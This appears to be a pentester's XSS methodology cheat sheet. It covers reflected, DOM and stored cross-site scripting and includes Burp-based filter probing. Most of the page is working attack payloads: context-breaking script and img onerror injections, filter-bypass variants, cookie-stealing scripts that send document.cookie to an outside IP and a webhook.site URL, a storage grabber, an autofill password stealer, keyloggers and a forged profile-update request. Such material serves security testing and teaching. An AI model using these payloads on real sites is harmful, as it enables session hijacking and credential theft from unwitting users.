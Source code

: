 [https://appsecexplained.gitbook.io/appsecexplained/common-vulns/javascript-injection-xss/xss-methodology](https://appsecexplained.gitbook.io/appsecexplained/common-vulns/javascript-injection-xss/xss-methodology)
## Identify
---
Are we able to control any data that is being reflected back and rendered by the application?

Important considerations:

- Where is the payload executing?
- What input validation exists?

## HTLM Tag Context
---
If we have control over content that is being reflected in an html tag.
You can try to close the tag and exec
```
"><script>prompt(1)</script>
"><img src=x onerror="prompt(1)">
```
If you have control over an `href` you can try the javascript browser scheme
```
http://example.com --> javascript:prompt()
```
Or just close tag early
```
</selected><img src=x onerror="prompt(1)">
```
## Javascript context
---
If we have control over content that is being reflected into a javascript context. Example:
```javascript
var querySearch = 'controlledInput'
```
Break the quote by appending input and comment out trailing semicolon.
```
controlledInput';prompt()//';
```


## General

### Quickly test for unfiltered tags
---
1. Get a list of tags (copy to clipboard [https://portswigger.net/web-security/cross-site-scripting/cheat-sheet](https://portswigger.net/web-security/cross-site-scripting/cheat-sheet))
2. Intercept request with burp, send to intruder.
![](../../assets/Pasted%20image%2020250629173700.png)
3. Paste the tags into the payloads. 
4. Start attack, monitor for unfiltered response codes, different length responses, etc...
5. You've hopefully found an unfiltered tag.
6. You can append portions of the payloads to determine exactly what is triggering the block.
7. Copy the events from portswigger, do the same thing for the event portion of the payload.


**Test html injection first, usually this is a good indicator (JS = you might need to bypass filter)**
```Python
<h1>test</h1>
```
**Payloads**
```html
<script>alert()</script>
```
```html
<script>print()</script>
```
```html
<script>prompt("string")</script>
```
```html
<script>alert(window.origin)</script>
```
```html
 <plaintext>
```
!!! alert "info"
	Many modern web applications utilize cross-domain IFrames to handle user input, so that even if the web form is vulnerable to XSS, it would not be a vulnerability on the main web application. This is why we are showing the value of window.origin in the alert box, instead of a static value like 1. In this case, the alert box would reveal the URL it is being executed on

**You need to trigger XSS if not executed on page load**
```html
<img src=x onerror="prompt(1)">
```
**Redirect**
```html
<img src=x onerror="window.location.href='<https://example.com>'">
```
**script tag filter**
```html
<img src=x onerror=print()>
```
```html
<scri<script>pt>prompt(1)<scri</scr</script>ipt>
```
**Keylogger**
```html
function logKey(event){console.log(event.key)}
```
```html
 document.addEventListener('keydown', logKey)
```


## DOM XSS
---
### Identify
You have XSS execution, but no http requests are being made. We see that the input parameter in the URL is using a hashtag # for the item we added, which means that this is a client-side parameter that is completely processed on the browser. This indicates that the input is being processed at the client-side through JavaScript and never reaches the back-end. This is DOM XSS
if we look at the page source by hitting `CTRL+U`, we will notice that our `test` string is nowhere to be found. This is because the JavaScript code is updating the page when we click the `Add` button
We can still view the rendered page source with the Web Inspector tool by clicking `CTRL+SHIFT+C`:

## Stored
**Steal admin cookie (classic)**
```html
<script>fetch("<http://192.168.187.130:9999/>" + document.cookie)</script>
```
```html
<script>var i = new Image; i.src="https://webhook.site/9b3374bf-b997-4021-a302-de75a26fd841/?"+document.cookie;</script>
```

!!! alert "note"
	Sometimes you may need to trigger the payload with JS as well (JS to resize the screen when using an onresize event to trigger)

### Automated with DOM Invader
---
Turn DOM invader on via the burp extension. Open dev tools,click DOM Invader tab.
Input the provided canary to potential execution. DOM Invader will identify sources and sinks for that data.

## Note on CORS
---
CORS policy will not block data exfil, only the REPONSES from non-allowlisted domains are blocked. The request will still be made, (to your webhook etc) just pass the `mode: 'no-cors'`


## Extending XSS
Steal cookies
```JS
<img src="http://localhost?c='+document.cookie+'" /> fetch("http://localhost?c="+document.cookie);
```
Accessing local & session storage
```JS
let localStorageData = JSON.stringify(localStorage) let sessionStorageData = JSON.stringify(sessionStorage)
```
Autofill stealer
```JS
// create the input elements
let usernameField = document.createElement("input")
usernameField.type = "text"
usernameField.name = "username"
usernameField.id = "username"
let passwordField = document.createElement("input")
passwordField.type = "password"
passwordField.name = "password"
passwordField.id = "password"
// append the elements to the body of the page
document.body.appendChild(usernameField)
document.body.appendChild(passwordField)
// exfiltrate as needed (we need to wait for the fields to be
filled before exfiltrating the information)
setTimeout(function() {
console.log("Username:",
document.getElementById("username").value)
console.log("Password:",
document.getElementById("password").value)
```

Session Riding
```JS

let xhr = new XMLHttpRequest();
xhr.open('POST','http://localhost/updateprofile',true);
xhr.setRequestHeader('Content-type','application/x-www-form-
urlencoded');
xhr.send('email=updated@email.com (mailto:updated@email.com)’);
```
Keylogging
```JS
Keylogging
document.onkeypress = function(e) {
get = window.event ? event : e
key = get.keyCode ? get.keyCode : get.charCode
key = String.fromCharCode(key)
console.log(key)
}
```

## XSS Filter Evasion
---
OWASP cheat sheet is pretty good
[https://cheatsheetseries.owasp.org/cheatsheets/XSS_Filter_Evasion_Cheat_Sheet.html](https://cheatsheetseries.owasp.org/cheatsheets/XSS_Filter_Evasion_Cheat_Sheet.html)



